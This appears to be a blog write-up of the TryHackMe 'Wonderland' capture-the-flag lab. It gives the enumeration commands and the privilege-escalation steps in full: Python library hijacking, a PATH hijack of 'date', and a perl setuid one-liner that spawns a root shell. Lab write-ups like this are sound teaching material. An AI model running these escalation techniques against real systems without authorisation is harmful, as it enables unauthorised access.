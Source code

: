 # Let's Explore Wonderland: The Try Hack Me CTF. 🐰

I've never really been a big Alice in Wonderland fan. I don't hate it, but it's not my favorite piece of literature. That aside, I really enjoyed this CTF (except the last part, but we'll get to that later). Get ready to fall into some holes, because we are about to hack Wonderland. 🐰

---

## Obtain the flag in user.txt
Okay, first things first. When we start our machine and we navigate to the given IP in our browser, we are given the following objective: "Follow the White Rabbit". Inspecting the page source, we can see that there are no hidden values for us to see, so we need to move on to our enumeration.
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/nz93l1209h3vss1v6dyb.png)
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/hkfkgm0mpbt9xue9315i.png)
 
Start up your terminal and run a good ol' nmap scan. We can see two services that are running: **ssh and http**.
`nmap -sV -sC -Pn <your machine IP>`
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/dhih3j3oogkonful6ycs.png)

Next, run a gobuster scan so we can see if there are any directories which are hidden. There are a few - but the most important one is the **/r** directory.
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u <your machine IP> -t 50`
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/xds87fsdctqvheex1qgc.png)

When we go to the **/r** directory in our browser, it tells us to keep going. Let's run another gobuster scan.
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u <your machine IP>/r -t 50`
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/apcqsggmehpfe7tjc7r0.png)
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/165o9hvfyts71b67zvb4.png)

Note that you can skip doing the manual enumeration for each directory by running a normal gobuster scan with a -R flag at the end. We can see that there is a **/r/a** directory. You can probably guess where this is going (the next one will be /b/b/i/t).
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/bdz61dkg9n0i1d6ify0g.png)

Let's follow the white rabbit to the end by going to the **/r/a/b/b/i/t** directory! When we inspect the page source, we can see that we have found Alice's username and password for a potential ssh login.
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/yeul3l2z8pmtgg7dwh2d.png)
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/64vhcj0lu0bygjtatmld.png)

Okay! Now, let's open up our terminal and log into our ssh service using our found credentials.
`ssh alice@<your machine IP>`
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/l57l4ier3djp5gk2nzwn.png)

When we list the files in our current directory, we find that we have a root.txt and a walrus_and_the_carpenter.py file. We will use come back to these files later. 
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ur5dxprrq3w59ehpyyu7.png)
 
For now, let's find and read the contents of our user.txt file, which is located under root (hence the hint, everything is upside down in here!).
`cat /root/user.txt`
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/na2j6iapz8js8qnf3b94.png)
 
Hoorah! We've found our user.txt flag!
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/t4xi4sift6la76fu6tv4.png)
 
---

## Escalate your privileges, what is the flag in root.txt?
Okay, remember when I said we'd get back to our root.txt and a walrus_and_the_carpenter.py files? Well, cd back into the /home/alice directory and let's analyse these files again. We do not have permission to read the contents of the `root.txt` file, and the `walrus_and_the_carpenter.py` imports the random module in python which returns a random poem.

```python
//contents of walrus_and_the_carpenter.py (I forgot to take a screenshot)

import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
............................
............................
And that was scarcely odd, because
Theyd eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

Let's see what commands Alice can run in our current environment. 
`sudo -l`
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ql8uqkcjog8m6issm4wy.png)

We can see that Alice can run the `/usr/bin/python3.6 walrus_and_the_carpenter.py` command (as one single string) to escalate her privilege to Rabbit. Now, we can exploit that random module that is imported above via [Python Library Hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/). We will do this by creating a `random.py` file in our current `/home/alice` directory, adding contents into it via nano and then running our command. 

**<u>Carefully follow the steps below:</u>**
1. Make sure you are in the /home/alice directory, then create a new file via the `touch random.py` command.
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/zmke0axprss1bsxatnmo.png)

2. Then, open up nano so that we can insert our script in this file via `nano random.py`.
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/a10c9290nq1c7g17lz8r.png)
 
3. With nano opened, insert the following script and save:
```python
import os

os.system("/bin/bash")
```
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/3g2t2paj5wgn8yvr6zwo.png)

3. Finally, we can commence with our privilege escalation from user Alice to User Rabbit via the following command:
`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` 
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/k7zsctlla6mkvbop5mcy.png)
 
We now have access to the system as Rabbit. Let's see what we can find in the `/home/rabbit` directory. There is a single executable: ./teaParty.
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/rw0z77grojgst80jhqbx.png)

When we run this executable, we can see that there is an odd string "Probably by Sat, 11 Jun 2022 13:16:45 +0000".
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/as8kppkveeucqaj3cs7f.png)

If we read this file with nano, we can see that it is calling upon a date file.
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/1t7vp2tnngndr610l45z.png)

Before we continue, lets see what access we have to this teaParty executable by running: `ls -la`.
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/vqmtbpw7ubdne95jivyp.png)

Fortunately, we can escalate our privilege from Rabbit to root by spawning root privilege via the [Echo Command](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) hack (we will do this by modifying our date file in our /tmp direcotory). 

**<u>Carefully enter the commands as sequenced below:</u>**
1. `cd /tmp`
2. `echo "/bin/bash" > date`
3. `chmod 777 date`
4. `echo $PATH`
5. `export PATH=/tmp:$PATH`
6. `cd /home/rabbit`
7. `./teaParty`

![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/6bgkn6cnncnrnu61t4pv.png)
 
We now have access as Hatter! When we see which privileges he has, we see an interesting file: `password.txt`. We now have the password for Hatter!
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/k6cx3dllt9ho3r1j6i5x.png)
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/pkdhh0wvzej27vrutaz5.png)

Unfortunately, Hatter does not have any sudo capabilities (try this by running `sudo -l`). Now this is where my struggle started. I used [GTFObins](https://gtfobins.github.io/) to find a list of binaries that we can exploit to escalate our environments' capabilities so that we can run sudo as Hatter. We will do so via [perl](https://gtfobins.github.io/gtfobins/perl/).
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/fk9u032gx3gqz68rvnaw.png)
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/7tui1xjk3nsk9iu6wco9.png)

In your terminal run the command below. I kept on getting permission denied, so I had to restart my OPENVPN connection, and then I got in! Unfortunately, I was so tired by then, that I forgot to take screenshots. I guess you can say I fell into a deep hole. 😒
`perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/09nkfkoxzdws7yzc1dsh.png)
 
You can now cd into and read the contents of our `/home/alice/root.txt` directory. We got our flag!
![Wonderland CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/um8h5h2d2h2yh85880vm.png) 
 
---

## Conclusion
Things got pretty messy there at the end, so I apologize for that. I guess this write-up is as upside down as the lab itself. 🙃

![Wonderland CTF](https://media.giphy.com/media/112DkdWt71IIpO/giphy.gif)

I hope that this was easy enough for you to follow, and until next time, happy hacking! 😁

